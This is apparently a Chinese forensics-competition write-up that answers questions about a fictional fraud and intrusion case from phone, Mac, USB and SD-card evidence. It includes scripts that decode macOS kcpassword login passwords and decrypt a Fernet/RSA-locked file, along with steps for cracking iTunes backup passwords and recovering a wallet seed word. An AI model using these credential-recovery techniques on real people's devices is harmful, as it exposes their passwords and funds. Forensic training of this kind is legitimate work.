## 111. [单选题]朗尼将加密了的比特币钱包的密码存在他计算机的一个档案里，这个档案的副档名是什么? (以大写英文及阿拉伯数字回答) (3分)

A. DMG

B. PDF

C. ASD

D. ZIP

E. PNG

通过给出的后缀进行过滤

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016395-543109384.png)

打开发现确实是记录了密码

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016957-1922373769.png)

如果题目没有给出后缀，还可以根据资源管理器痕迹，去找到可以的时间段，或者是根据`USN`日志去定位可疑文件，同时还可以通过查看电脑中的文本阅读器，如word等，这次word中就保存有如下数据，这样我们根据word还原的内容去搜索，也可以定位到文件

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016788-1766076795.png)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016415-867101409.png)

结果为`C`

## 112. [单选题]朗尼在手机里有一个加密了的比特币钱包，他采用什么应用程序把该钱包里的黑钱转换成另一种加密货币? (2分)

A. Safepal

B. Metamask

C. Changelly

D. Opensea

在手机图片中找到

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017048-590771899.png)

结果为`C`

## 113. [单选题]承上题，这次转换加密货币的日期和时间是什么? (以时区UTC+8回答) (2分)

A. 2022-10-07 10:29时

B. 2022-10-07 11:06时

C. 2022-10-07 11:07时

D. 2022-10-07 13:54时

同样查看图片

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016979-269009005.png)

结果为`A`

## 114. [单选题]朗尼在计算机里采用什么浏览器 (Browser) 及在什么日期时间在他的计算机安装 'MetaMask' ? (以时区UTC+8回答) (1分)

A. Chrome 2022-08-25 12:35时

B. Chrome 2022-10-07 14:29时

C. Firefox 2022-08-25 12:35时

D. Firefox 2022-10-07 14:29时

搜索了一下，发现在电脑中`MetaMask`以插件形式安装

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016378-1101519471.png)

通过定位到谷歌浏览器插件目录`C:\Users\langni001\AppData\Local\Google\Chrome\User Data\Default\Extensions`，通过`manifest`来找到`MetaMask`及文件创建时间

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017035-1494130706.png)

结果为`B`

## 115. [单选题]朗尼在计算机里所创建的非同质化通证 (Non-Fungible Token - NFT) 使用哪一个种区块链 (Blockchain) 技术? (1分)

A. Ethereum

B. Polygon

C. Solana

D. Arbitrum

E. Klaytn

这个NFT同样在手机截图有记录

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016986-2108396403.png)

结果为`A`

## *116. [单选题]朗尼在什么日期时间把计算机中创建的非同质化通证 (NFT) 放售? (以时区UTC+8回答) (2分)

A. 2022-10-07 14:47时

B. 2022-10-07 14:49时

C. 2022-10-07 14:52时

D. 2022-10-07 14:54时

根据上述的地址找到访问时间

[](https://img2023.cnblogs.com/blog/2817142/202212/2817142-20221204122350613-540001844.png)

结果为`A`

## 117. [多选题]朗尼的手机里，有什么应用程序与将黑钱 (比特币) 转换成另一加密货币的地址有关? (2分)

A. Metamask

B. Opensea

C. Safepal

D. YouTube

查看应用列表，其中`Opensea`是与`NFT`有关的

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016388-1104732528.png)

结果为`AC`

## 118. [单选题]朗尼的手机里，于2022-10-07，15:07时至15:08时做过什么动作? (以时区UTC+8回答) (2分)

A. 登录 'Metamask'

B. 登录 'Opensea'

C. 屏幕截图 (Screen Capture)

D. 登录 'YouTube'

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016993-345719898.png)

结果为`C`

## 119. [多选题]承上题，从这个动作中能找到什么资讯? (1分)

A. Opensea.io

B. Ethereum Main Network

C. Your purchase is complete

D. Subtotal = 0.0253 ETH

E. Good Luck

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017044-1717952386.png)

结果为`ABC`

## 120. [填空题]在朗尼的计算机旁找到 'MetaMask' 的密码是 'opensea741'，找出朗尼计算机里的 'MetaMask' 中有多少加密货币余额? (不要输入 '.'，以阿拉伯数字回答，如 0.137 需回答 0137) (2分)

登录

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016459-682723220.png)

结果为`00247`

## 121. [填空题]朗尼的计算机曾用什么电邮地址登录电邮帐号? (不要输入答案中的 '@' 及 '.'，以大写英文及阿拉伯数字回答，如name@mail.com，需回答 NAMEMAILCOM) (1分)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017172-2139156717.png)

结果为`ROONEYCHAN19830801GMAILCOM`

## 122. [填空题]什么电邮账号曾接收过上述电邮地址发送的电邮？（不要输入答案中的 '@' 及 '.'，以大写英文及阿拉伯数字回答，如name@mail.com，需回答 NAMEMAILCOM） (1分)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017043-1027555122.png)

结果为`KINGHOO0W0GMAILCOM`

## 123. [多选题]承上题，上述的电邮附件包含哪些类型的档案? (3分)

A. pdf

B. doc

C. png

D. txt

E. jpg

上述邮件在取证大师中的附件大小为0，实际上附件是存在的，但是取证大师没有解析，因为附件被放到了另一个文件当中，使用邮箱程序应该可以正常打开

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016439-68148250.png)

同时也可以自行转换，邮件的附件都是以base64形式保存，可以使用脚本直接跑出压缩包


```python
import base64

file_path = "251.2.emlxpart"
target_file = "Recover Seed.zip"

def b64_to_file(path,target):
    b64str = ""
    with open(path,"r",encoding="utf-8") as fr:
        for line in fr.readlines():
            b64str += line.strip()
    
    with open(target,"wb") as fw:
        fw.write(base64.b64decode(b64str))

if __name__=="__main__":
    b64_to_file(file_path,target_file)
```

但是实际上这个压缩包在Ronny和王景浩的电脑中都是有的

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016969-1610505680.png)[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017006-1162802867.png)

打开这个压缩包，发现压缩包中文件大小和压缩包的大小不匹配

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016393-130948422.png)

那么这个压缩包中肯定有其他文件，但是由于某种原因没有显示，在数据中搜索上述后缀名，发现了一个`JPG`图片

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017161-394893311.png)

将该压缩包使用`WinRAR`进行修复，修复后的压缩包内容显示正常

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016974-962908216.png)

结果为`DE`

## 124. [填空题]上述电邮附件里的文件，被遮蔽的英文单字是什么? (以大写英文回答) (3分)

压缩包中的图片如下，这是都是`recovery seed`，第一个单词被挡住

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016494-996153834.png)

那么回到电脑中去找到对应的种子就可以了，电脑中的6个钱包中的种子都不匹配，剩下一个回收站中的`rc3`，但是不知道密码，放大图片看到被盖住的两个像是`ea`，那么结尾就是`each`

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017299-1230981049.png)

找到钱包字典

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016993-1605297320.png)

搜索后发现字典中只有`beach`和`teach`，但是使用`beach`的时候`BIP39`会报错，而`teach`不报错

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016370-1232790718.png)

结果为`teach`

## 125. [填空题]根据上述电邮附件里找到的回复种子 (Recovery Seed)，计算朗尼在 'MetaMask' 使用的以太币 (Ethereum) 地址。(提示：BIP-44 derivation path = m/44'/60'/0'/0/0) (以大写英文及阿拉伯数字回答) (3分)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016993-1295010469.png)

结果为`2AAEAB9592B749CE6355ED19D048F86F5EA5D819`

## 1. [填空题]在朗尼手机于2022年9月30日的 'WhatsApp' 对话里，有一段音讯 (Voice Message) 提到王景浩会给朗尼现金多少作为租用 'VPN' 的租金? (以阿拉伯数字回答) (3分)

au进行反向播放

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017089-1627110079.png)
结果为`3000`

## 126. [单选题]在2022年9月28日18时51分 (UTC+8)，朗尼曾经在手机用WhatsApp与王景浩对话，语句 [有灯，风扇经常在转]，回复这句话的相关语句是什么? (1分)

A. 你有推介吗?

B. 我之前放在你家的机械运作正常吗?

C. 有灯号风扇有转动?

D. 帅吗?

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016401-7819192.png)

结果为`C`

## 127. [单选题]朗尼通过手机相约王景浩于10月15日到哪一个地区食晚饭? (1分)

A. 荃湾

B. 湾仔

C. 九龙城

D. 九龙塘

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017018-1247092722.png)

结果为`A`

## 128. [填空题]朗尼手机的 'WhatsApp' 号码是什么? ( 号码 ) @s.whatsapp.net? (以阿拉伯数字回答) 85259814785(1分)

结果为`85259814785`

## 129. [多选题]朗尼的手机曾连接以下哪一个WIFI网络? (2分)

A. taiiphone

B. rooneyhome

C. Function Room

D. TP-Link

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016992-312824883.png)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016312-1594509584.png)

结果为`AC`

## 130. [单选题]朗尼的手机曾连接WIFI [SSID: faifai], 它的登录密码是什么 ? (2分)

A. abcd5678

B. aaaa0000

C. rooney111

D. rdfu1234

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017096-486015529.png)

结果为`D`

# 王景浩

## 17. [单选题]王景浩的USB记忆棒里有一个 'Data' 文件夹 (Folder)，它存有哪一种类型的密钥文件? (1分)

A. pem

B. cer

C. crt

D. key

E. 以上皆非

可以看到用的是`RSA`，那么类型就是`pem`

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017191-522658081.png)

结果为`A`

## 18. [多选题]承上题，'Data' 文件夹里有一个被加密了的档案，它是被哪一种加密方法加密? (2分)

A. Symmetric

B. PGP

C. Twofish

D. RSA

E. Triple DES

在该目录的`note`目录下，有加密算法，使用了`Fernet`和`rsa`，其中`Fernet`使用的是对称加密算法，即`Symmetric`

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016707-450244730.png)

结果为`AD`

## 19. [单选题]尝试将档案解密，该档案属于哪一个类型 (File type)? (2分)

A. exe

B. ods

C. rtf

D. sql

E. 以上皆非

在note中有解密代码

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017091-166039115.png)

根据给的思路写下来就可以


```python
from cryptography.fernet import Fernet
import rsa

with open("P1","rb") as fr1:
    fk = fr1.read()
    K = rsa.PrivateKey.load_pkcs1(fk)
with open("minecraft.exe","rb") as ef:
    V2 = ef.read(128)
    V3 = ef.read()
decrypted_key = rsa.decrypt(V2,K)
cipher = Fernet(decrypted_key)
decrypted_file=cipher.decrypt(V3)
with open("decrypted_file.txt","wb") as fw:
    fw.write(decrypted_file)
```

解开之后的内容是个sql备份文件

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017211-1887500193.png)

结果为`D`

## 20. [多选题]承上题，找出以下哪一个名字出现在该档案里? (3分)

A. Armand To

B. Adam Smasher

C. Beverly Kot

D. Huma Chan

E. 以上皆非

在文件中搜索

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016725-1785591129.png)[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017203-1328392303.png)

结果为`AC`

## 57. [单选题]王景浩的计算机使用什么文件系统 (File System) ? (1分)

A. exFAT

B. APFS

C. HFS

D. HFS+

取证大师直接查看

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017292-331899588.png)

结果为`D`

## 58. [单选题]王景浩计算机的操作系统 (Operating System) 版本是什么? (1分)

A. 10.4.11

B. 10.9.5

C. 10.10.5

D. 10.11.6

取证大师直接看

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016717-298069424.png)

结果为`D`

## 59. [填空题]王景浩的计算机当前有多少个用户 (包括访客 'Guest' )? (以阿拉伯数字回答) (1分)

取证大师直接看

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017027-1530924154.png)

结果为`6`

## 60. [填空题]王景浩的计算机里有一个用户被删除，被删除的用户名称是什么? (以大写英文回答) (1分)

取证大师直接看

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017354-1969012719.png)

结果为`BROTHER`

## 61. [填空题]王景浩的计算机有多少个 '聚焦' 的搜索记録 (Spotlight Search) ? (以阿拉伯数字回答) (1分)

全局搜索

[](https://img2023.cnblogs.com/blog/2817142/202212/2817142-20221204122454811-241879167.png)

结果为`9`

## 62. [单选题]当用户设置了自动登录 (Auto Login) 后，王景浩计算机的操作系统会产生哪个档案? (2分)

A. manifest.plist

B. info.plist

C. PasswordPanel.strings

D. kcpassword

不懂就百度

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017449-777691487.png)

结果为`D`

## 63. [单选题]王景浩计算机的登录密码 (Login Password) 是什么? (2分)

A. 1qa@WS3ed

B. 3ed$RF5tg

C. 5tg^YH7uj

D. 2ws$RF6yh

xways可以直接解析出`kcpassword`中的密码

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017169-176831458.png)

也可以通过解密脚本进行解密

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017168-401076480.png)


```python
#key是固定的值
key = [125, 137, 82, 35, 210, 188, 221, 234, 163, 185, 31]
length = len(key)
#pwd是kcpassword文件中的16进制值的10进制
pwd = [79, 254, 33, 7, 128, 250, 235, 147, 203, 185, 120, 187]
end = False
kcpassword = []
for i in range(len(pwd)):
    if pwd[i] ^ key[i % length] == 0:
        end = True
    if end == False:
        kcpassword.append(str(chr(pwd[i] ^ key[i % length])))

print(''.join(map(str, kcpassword)))
```

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016720-726295061.png)

结果为`D`

## 64. [单选题]在王景浩的计算机里，他最后使用哪个电邮地址登录 'iCloud' 账号? (2分)

A. kinghoo0w0@gmail.com

B. wonghoo588@yahoo.com

C. kingho726@aol.com

D. kinghoo0w0@yahoo.com

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017244-2137146665.png)

结果为`A`

## 65. [多选题]王景浩计算机里的手机备份 (iTunes Backup) 包含哪些iOS版本? (2分)

A. 12.5.6

B. 15.4

C. 15.5

D. 16.0.3

查看两个备份的`manifest.plist`文件的`ProductVserion`的值

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017197-1225384805.png)[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016641-790906315.png)

结果为`AC`

## *66. [填空题]王景浩曾经将一台 iPhone 6 连接他的计算机，请问它最后的连接时间是什么? (以时区UTC+8回答) (如答案为 2022-12-29 16:01:59，需回答 20221229160159) (2分)

蓝牙连接记录

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017168-1795414766.png)

USB连接记录
[](https://img2023.cnblogs.com/blog/2817142/202212/2817142-20221204122554882-327623874.png)

USB最早的记录也比蓝牙晚

结果为`20220819152402`

## 67. [单选题]苹果手机备份的密码 (iTunes Backup Encryption Password) 会记录在什么档案? (2分)

A. Info.plist

B. privacy.json

C. Manifest.plist

D. PasswordPanel.strings

利用passware载入`Manifest.plist`文件时，可以对备份进行破解

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017045-856215082.png)

结果为`C`

## 68. [多选题]以下哪种工具可以用作破解密码? (1分)

A. Passware

B. John The Ripper

C. HashCat

D. Password Recovery Toolkit

常识题，以上都可以对密码进行破解

结果为`ABCD`

## 69. [多选题]通过 'hashcat' 破解 'iTunes Backup' 密码需要制订一个 'txt' 档案，若该备份的手机iOS版本是10以上，需要按照下列哪个提示字符 (String) 的数据去制订这个 'txt' 档案? (3分)

A. WPKY

B. ITER

C. SALT

D. DPIC

E. DPSL

不会就百度

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016699-8251676.png)

结果为`ABCDE`

## 70. [填空题]王景浩采用了4位数字加密了他的iPhone XR的备份，分析它的密码是什么? (以阿拉伯数字回答) (3分)

使用passware设置4位数字规则跑出密码

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017054-7887581.png)

结果为`2022`

## *71. [填空题]最后一次连上王景浩计算机的3D打印机的IP地址是什么? (不要输入答案中的 '.'，以阿拉伯数字回答) (2分)

根据时间找到ip

[](https://img2023.cnblogs.com/blog/2817142/202212/2817142-20221204122625285-1960633312.png)

[](https://img2023.cnblogs.com/blog/2817142/202212/2817142-20221204122625356-1888209773.png)

结果为`1014140`

## *72. [填空题]3D打印机最后一次在王景浩的计算机尝试打印的时间? (以时区UTC+8回答) (2分)

[](https://img2023.cnblogs.com/blog/2817142/202212/2817142-20221204122625285-1960633312.png)

结果为`20221020162806`

## 73. [单选题]最后一次经由王景浩计算机打印的3D图档案名字是什么? (2分)

A. CE3_balljoint_extender.gcode

B. um3-penguin-real-mini-keychain-merged-tpu.gcode

C. CE3_Prancer.gcode

D. CE3_2020-psu-atx-mount.gcode

[](https://img2023.cnblogs.com/blog/2817142/202212/2817142-20221204122625294-1500456037.png)

结果为`D`

## *74. [单选题]王景浩计算机的Safari浏览器的默认搜索引擎 (Default Search Engine) 是什么? (2分)

A. 百度

B. 谷歌

C. 360

D. Safari

查看搜索记录，大部分都是谷歌

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016939-327616865.png)

结果为`B`

## 75. [单选题]分析王景浩计算机的数据，王景浩的比特币钱包 (Bitcoin Wallet) 地址是什么? (2分)

A. bc1quw… ...zpzjzt

B. bc1qm… ...5f7n9g

C. bc1q79… ...h4sq52

D. bc1qsl… ...je7hkk

邮件附件

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016832-183215907.png)

结果为`A`

## 76. [单选题]AGC公司员工 'Carson' 有一个由公司发给他的电邮账户，分析王景浩的计算机数据并找出 'Carson' 的电邮账户密码。(2分)

A. AGC2020@pw

B. AGC2012@PW

C. AGC2020@hkg

D. AGC2021@PW

注意不要被混淆

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017264-1787018260.png)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017087-1578392520.png)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016759-92953356.png)

结果为`A`

## 77. [填空题]王景浩曾经冒充AGC公司员工 'Carson' 发送电邮给AGC 客户，这封电邮的 'Message-ID' 是什么? 回答它的首８位数值。(以大写英文和阿拉伯数字回答，如 4GEF90GD) (2分)

服务器中的邮件，两封邮件的id不一样

[](https://img2023.cnblogs.com/blog/2817142/202212/2817142-20221204122703136-823627156.png)

[](https://img2023.cnblogs.com/blog/2817142/202212/2817142-20221204122703128-2120801683.png)

但是在mac中的两封邮件的id是一样的，这里填mac中的

[](https://img2023.cnblogs.com/blog/2817142/202212/2817142-20221204122703127-1209219787.png)

结果为`004001D8`

## 78. [多选题]王景浩采用计算机里的哪种工具进入和盗取AGC公司的数据? (2分)

A. Teamviewer

B. OpenVPN

C. Remote Desktop Manager

D. Tor Browser

通过远程连接，并使用了VPN

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017099-533871041.png)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017191-1507866304.png)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016780-1056244048.png)

结果为`ABC`

## 79. [多选题]王景浩在AGC公司盗取了下列什么类型的档案? (2分)

A. ost

B. xlsx

C. jpg

D. docx

查看公司pc的`teamviewer`的传输记录

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017161-1095894152.png)

结果为`AB`

## 80. [填空题]王景浩的计算机于2022年9月29日曾经接上一个虚拟专用网络 (Virtual Private Network - VPN)，这个VPN的IP地址是什么? (不要输入答案中的 '.'，以阿拉伯数字回答) (2分)

查看openvpn的配置文件

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017208-438620411.png)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016700-358715279.png)

结果为`61238217108`

## 81. [填空题]装置 '「KingHoo」的iPhone' 的蓝牙媒体访问控制地址 (MAC Address) 是什么? (不要输入答案中的 '：' 或 '-' ，以大写英文及阿拉伯数字回答) (1分)

查看蓝牙信息

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017254-1112696948.png)

结果为`C81EE74AF933`

## 82. [单选题]王景浩何时将 '小宝' 加为iPhone XR的手机联络人 (Contact) ? (以时区UTC +8回答) (1分)

A. 2022年07月14日

B. 2022年07月15日

C. 2022年07月16日

D. 2022年07月17日

E. 2022年07月18日

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017267-1713617259.png)

结果为`A`

## 83. [单选题]王景浩的iPhone XR显示他的汇丰银行户口于2022年9月19日收到多少存款? (1分)

A. HKD298.8

B. HKD344.7

C. HKD396

D. HKD543

E. HKD465.1

查看短信记录

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016746-260906878.png)

结果为`B`

## 84. [单选题]王景浩的iPhone XR没有收藏 (Bookmark) 哪家音响品牌的网页? (1分)

A. KEF

B. EDIFIER

C. BOSE

D. YAMAHA

E. Bowers & Wilkins

查看Safari的书签

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017254-1431746824.png)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017299-23327978.png)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016674-303242358.png)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017244-203137189.png)

结果为`D`

## 85. [单选题]王景浩的iPhone XR手机记录了他曾于2022年8月26日试飞无人机，当天试飞的地点在哪里? (2分)

A. 大埔海滨

B. 启德

C. 数码港

D. 西环

E. 将军澳

找到文件目录`App/com.dji.golite`

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017162-1931900583.png)

利用物联大师分析该目录

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016817-1524626162.png)

根据经纬度定位

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017264-1989100249.png)

这个位置在西环附近

结果为`D`

## 86. [单选题]王景浩于2022年8月26日试飞无人机的总飞行时间 (Total Flight Time) 多久? (2分)

A. 6分58秒

B. 8分10秒

C. 9分6秒

D. 11分1秒

E. 15分33秒

物联大师查看时间线，并分析高度，排除过低的记录后，时间大约在9分钟

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017169-956125920.png)

结果为`C`

## 87. [多选题]王景浩用 iPhone XR 拍了一张照片'IMG_0012.HEIC'，那照片什么地方曾被修改? (3分)

A. 拍摄时间

B. 经纬度

C. 时区

D. 档案名称

E. 拍摄装备

手机大师分析出创建时间不匹配，图片元数据表示拍摄日期是`2022-07-15 12:43:15`

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016806-35588601.png)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017263-1268270052.png)

图片的位置信息与数据库中的位置信息不匹配

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017292-1739038495.png)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016871-693520154.png)

结果为`AB`

## 88. [填空题]承上题，那张照片修改后的经纬度是什么? (不要输入答案中的 '.'，将经纬度合并回答。如 22.2846135 114.1739116，需回答 2228461351141739116) (3分)

结合数据库、图片和图片exif信息，可以看到图片当中出现香港区旗，exif中的定位位置为`香港`，而数据库定位的位置为`广州`，同时图片exif信息显示的拍摄时间和修改时间均为`2022-07-15 12:43:15`，可以得出结论`实际修改的内容为Photos.sqlite数据库中该图片的相关信息`，因此答案应为数据库中记录的经纬度

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017353-476457787.png)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017340-898960379.png)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016976-701621751.png)

结果为`2286249931134190938`

## 96. [填空题]王景浩 SD 记忆卡 (SD Memory Card) 的储存容量有多少个字节 (Byte) ? (以阿拉伯数字回答) (1分)

xways直接看

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017349-1790263988.png)

诶过为`8004304896`

## 97. [单选题]检视记忆卡上硬盘分区表 (Partition Table) 资讯，记忆卡共有多少个分区 (Partition) ? (1分)

A. 1

B. 2

C. 3

D. 4

E. 0

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017449-826786128.png)

结果为`2`

## 98. [单选题]检视记忆卡上硬盘分区表资讯，第二个分区的分区代码 (Partition Code) 是什么? (1分)

A. 07

B. AF

C. 0C

D. 2B

E. 01

使用`diskgenius`搜索丢失分区后看到

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016913-524644720.png)

结果为`A`

## *99. [多选题]记忆卡的档案不能被读取，记忆卡受损的原因包括? (2分)

A. 目录项结构 (Directory Entry) 受损

B. 启动扇区表 (Master Boot Record) 受损

C. 文件分配表 (File Allocation Table - FAT) 受损

D. 引导扇区 (Boot Sector) 受损

E. 以上各项皆是

许多目录都多出了`USBC`坏道

[](https://img2023.cnblogs.com/blog/2817142/202212/2817142-20221204122745151-771745229.png)

但引导和fat并没有损坏

[](https://img2023.cnblogs.com/blog/2817142/202212/2817142-20221204122745173-2116776678.png)

结果为`AB`

## 100. [填空题]承上题，通过分析及手动恢复还原，记忆卡里有多少个出錯的情况出现? (以阿拉伯数字回答) (3分)

[](https://img2023.cnblogs.com/blog/2817142/202212/2817142-20221204122745162-2102911808.png)

通过使用后续数据+空白扇区覆盖的方式，进行修复，从头部开始，一直到结束的后一个空白扇区，复制并覆盖到`USBC`坏块的位置

[](https://img2023.cnblogs.com/blog/2817142/202212/2817142-20221204122745139-1350498814.png)

[](https://img2023.cnblogs.com/blog/2817142/202212/2817142-20221204122745171-1332126086.png)

结果为`8`

## 101. [多选题]记忆卡第一个文件系统 (File System) 中有一个图片档案，它的SHA-256哈希值是 'F7E003781456D2E01CFE0EB46988D5BB433ADF9841164BBB90BAC67C0C9B21AF'。该档案显示了哪些影像? (2分)

A. 人

B. 山

C. 汽车

D. 交通灯

E. 天空

计算哈希并过滤

[](https://img2023.cnblogs.com/blog/2817142/202212/2817142-20221204122745185-479273203.png)

结果为`BE`

## 102. [单选题]检视记忆卡的数据，在2022年10月9日约中午12时5分至12时15分之间的录像 (Video) 中，曾经出现哪一个IP地址? (2分)

A. 61.238.217.108

B. 155.137.190.123

C. 192.168.1.66

D. 185.200.100.242

E. 213.104.156.111

隐约能看到最后是`242`，不过中间好像是`220`，但是其他地方没有看到ip

[](https://img2023.cnblogs.com/blog/2817142/202212/2817142-20221204122745128-779624730.png)

结果为`D`

## 103. [填空题]恢复还原后的记忆卡中，第二个文件系统显示有多少个空闲簇 (Free Cluster)? (以阿拉伯数字回答) (2分)

xways查看最右侧

[](https://img2023.cnblogs.com/blog/2817142/202212/2817142-20221204122745167-2039928610.png)

结果为`2803109`

## 104. [填空题]记忆卡第一个文件系统中有一个视频档，它的SHA-256哈希值是 '847E1E5FEF64B49C8D689DC3537D619B87666619A7C1EF0CC821153641847C19'，这个视频的档数据存在文件系统 (File System) 的最后的簇号 (Last Cluster Number) 是什么? (以阿拉伯数字回答) (2分)

筛选，查看簇

[](https://img2023.cnblogs.com/blog/2817142/202212/2817142-20221204122745178-977641751.png)

结果为`522399`

## 105. [单选题]尝试分析记忆卡数据結構受损的原因，通过合适的方法把数据恢复到原本没有出错的状况，记忆卡的SHA-256哈希值是什么？(3分)

A. E63DF0... ...8627D3

B. 3FD99E… ...17B6DE

C. 3BADAA… ...666A8F

D. BBB211… ...E00710

E. AA9E81… ...2C04FE

[](https://img2023.cnblogs.com/blog/2817142/202212/2817142-20221204122745158-1925325227.png)

结果为`C`

## 30. [多选题]通过取证调查结果迸行分析 (包括但不限于以上问题及情节)，以下哪项关于王景浩的推断是正确的? (5分)

A. 曾经采用他的计算机入侵AGC集团网络

B. 傳播儿童sq物品

C. 于AGC集团取得大量客户资料

D. 通过VPN取得Rooney家里的IP地址

E. 企图更改AGC集团的网页

结果为`ACDE`